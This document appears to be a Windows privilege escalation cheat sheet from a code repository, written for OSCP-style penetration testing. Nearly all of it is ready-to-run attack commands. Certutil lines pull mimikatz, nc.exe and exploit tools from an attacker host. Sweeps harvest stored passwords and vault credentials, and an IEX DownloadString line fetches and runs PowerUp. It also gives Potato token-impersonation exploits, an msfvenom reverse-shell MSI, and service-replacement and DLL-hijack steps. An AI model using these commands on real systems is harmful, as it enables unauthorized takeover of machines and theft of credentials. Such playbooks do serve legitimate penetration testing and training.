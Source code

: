 # Windows Privilege Escalation Playbook

Quick-reference checklist for hunting Windows privilege escalation paths, covering manual checks, automated tooling, and common exploits. Replace placeholders (`<target>`, `<user>`, `<password>`) as needed.

---

## Quick Triage Checklist
- Identify current user context and host: `whoami`, `hostname`
- Inspect group memberships for elevated rights: `whoami /groups`
- Enumerate local users and privileged groups: `net user`, `net localgroup administrators`
- Capture OS build, architecture, and patch level: `systeminfo`, `wmic os get osarchitecture`, `wmic qfe`
- Review network footprint: `ipconfig /all`, `route print`
- List installed applications and running processes: `wmic product get name,version`, `tasklist /v`
- **Command bundle for a fast snapshot:**
  ```powershell
  whoami; hostname; whoami /groups;
  net user; net localgroup administrators;
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version";
  wmic os get osarchitecture; wmic qfe get HotFixID,InstalledOn;
  ipconfig /all; route print; tasklist /v
  ```

---

## O. Transfer File
```bash
certutil -urlcache -split -f http://10.10.14.160:8080/winPEASx64.exe
certutil -urlcache -split -f http://10.10.14.160:8080/mimikatz.exe
certutil -urlcache -split -f http://10.10.14.160:8080/PrintSpoofer.exe
certutil -urlcache -split -f http://10.10.14.160:8080/nc.exe
certutil -urlcache -split -f http://10.10.14.160:8080/PowerUp.ps1


```

## 1. System Recon
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` – OS baseline for kernel/patch checks.
- `wmic qfe get Caption,Description,HotFixID,InstalledOn` – Enumerate installed updates.
- `whoami /all` – Current user, groups, and privileges (look for SeImpersonatePrivilege, SeAssignPrimaryTokenPrivilege, etc.).
- `hostname` / `echo %COMPUTERNAME%` – Confirm host identity.
- `set` – Dump environment variables for credentials or unusual paths.
- `driverquery /v` – List drivers to identify vulnerable third-party components.
- `wevtutil qe System /c:10 /rd:true /f:text` – Recent system events (service crashes, policy changes).
- **Situational awareness command sweep:**
  ```powershell
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
  wmic qfe get Caption,Description,HotFixID,InstalledOn
  whoami /all
  driverquery /v
  wevtutil qe System /c:10 /rd:true /f:text
  ```

## 2. Account & Credential Recon
- `net user <username>` / `net user` – Local user enumeration.
- `net localgroup administrators` – Check local admin membership.
- `cmdkey /list` – Stored credentials.
- `vaultcmd /listcreds /all` – Credential Manager entries.
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"` – Auto-logon creds.
- `findstr /spin "password" C:\Users\*` – Harvest clear-text secrets from user profiles.
- `findstr /spin /c:"pass" C:\*` – Broad search for files containing the literal string "pass".
- **Hidden-in-plain-view sweep (passwords, tokens, secrets):**
  ```powershell
  findstr /spin "password" C:\Users\*
  findstr /spin "token\|secret" C:\Users\*
  findstr /spin /c:"pass" C:\*
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
  cmdkey /list
  vaultcmd /listcreds /all
  ```

## 3. Service & Driver Abuse
- `sc query state= all` – Enumerate services and states.
- `sc qc <service>` – Inspect service configuration (binary path, run-as account).
- `wmic service get name,displayname,startmode,startname` – Identify auto-start services running as SYSTEM.
- Check for unquoted service paths; note writable directories in the path.
- `accesschk.exe -uwcqv "Authenticated Users" * /accepteula` – Detect writable service binaries.
- Driver vulnerabilities: cross-reference `driverquery` output with exploit DB (e.g., CVE-2018-0952).

## 4. Scheduled Tasks & Startup
- `schtasks /query /fo LIST /v` – Look for high-priv tasks with modifiable actions.
- `dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"` – Startup folder abuse.
- Inspect `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` for writable autoruns.

## 5. Registry & Permission Weaknesses
- `reg query HKLM\SOFTWARE\Policies /s` – Misconfigured policies.
- `icacls "C:\Program Files"` – Find writable directories under Program Files.
- `Get-Acl` via PowerShell on critical paths (`C:\Windows\System32`, service binaries) to spot misperms.
- `reg query HKLM\SYSTEM\CurrentControlSet\Services /s | findstr /i "ImagePath"` – Review service ImagePaths for suspicious locations.
- **Interpreting key `icacls` flags:**  
  `F` (Full Control), `M` (Modify), `(W)` (Write), `(OI)` (Object Inherit), `(CI)` (Container Inherit). If low-privileged principals such as `BUILTIN\Users`, `Authenticated Users`, or `Everyone` hold `F`, `M`, or `(W)` on service binaries or directories, the path is likely exploitable.

## 6. Token & Privilege Abuse
- `whoami /priv` – Confirm user privileges.
- If SeImpersonatePrivilege present: deploy `PrintSpoofer`, `GodPotato`, or JuicyPotato.
- With SeAssignPrimaryTokenPrivilege: use `PsExec` or `incognito` to assign new tokens.
- With SeBackupPrivilege: use `diskshadow` + `ntdsutil` for AD database/download.

## 7. UAC & Logon Tricks
- `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System` – Determine UAC level.
- Test non-elevated processes for auto-elevate (fodhelper, sdclt, eventvwr) if UAC is misconfigured.
- `query user` – Identify interactive admins for impersonation opportunities.

## 8. Using PowerUp.ps1
- Import PowerUp: `powershell -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"`
- Key functions:
  - `Invoke-AllChecks` – Comprehensive audit of services, reg keys, creds.
  - `Get-ServiceUnquoted` / `Get-ModifiableServiceFile` – Service path exploits.
  - `Get-ModifiableScheduledTaskFile` – Writable scheduled tasks.
  - `Get-RegistryAlwaysInstallElevated` – MSI elevated install misconfigs.
  - `Invoke-ServiceAbuse -Name <service>` – Automatically reconfigure vulnerable services.

## 9. Automated Scanners & Scripts
- `winPEAS.exe /quiet` – Broad privilege escalation discovery.
- `Seatbelt.exe -group=all` – Quick situational awareness.
- `SharpUp.exe` – C# alternative for Windows priv-esc checks.
- `Jaws-enum.ps1` – PowerShell info-gathering script.
- `wesng <systeminfo_output.txt>` – Windows Exploit Suggester Next-Gen.

## 10. Common Priv-Esc Exploits
- **Potato Family (SeImpersonate/AssignPrimary tokens)**
  - PrintSpoofer64: `PrintSpoofer64.exe -i -c cmd.exe`
  - GodPotato: `GodPotato.exe -cmd "cmd.exe"`
  - JuicyPotatoNG: `JuicyPotatoNG.exe -l 1337 -c "{CLSID}" -p "C:\Windows\System32\cmd.exe"`
- **Service Binary Replacement**
  - Stop vulnerable service → replace executable with payload → start service.
- **Unquoted Service Path**
  - Place payload in path (e.g., `C:\Program Files\Vuln Service\program.exe`) and restart service.
- **AlwaysInstallElevated**
  - `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
  - `msfvenom -p windows/x64/shell_reverse_tcp -f msi` and run MSI to escalate.
- **DLL Hijacking**
  - Monitor loading DLLs via `Process Monitor` or `ListDLLs` → drop malicious DLL in writable directory.
- **Kernel Exploits**
  - Cross-reference build with exploit suggester (e.g., `PowerUp`, `wesng`) and deploy CVE-specific exploit like `CVE-2019-1388`.

## 11. Persistence & Verification
- After escalation, confirm with `whoami /groups` and `net session`.
- Locate OSCP flag files to document proof: `dir /s C:\*local.txt`, `dir /s C:\*proof.txt`
- Document exploited vector, commands, and files modified.
- Remove tooling and restore service order if required by engagement scope.

---

### Useful Download Links
- PowerUp.ps1: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
- winPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
- PrintSpoofer: https://github.com/dievus/printspoofer
- GodPotato: https://github.com/BeichenDream/GodPotato
- JuicyPotatoNG: https://github.com/ohpe/juicy-potato
- Windows Exploit Suggester NG: https://github.com/bitsadmin/wesng
- Seatbelt: https://github.com/GhostPack/Seatbelt
- Kerbrute https://github.com/ropnop/kerbrute
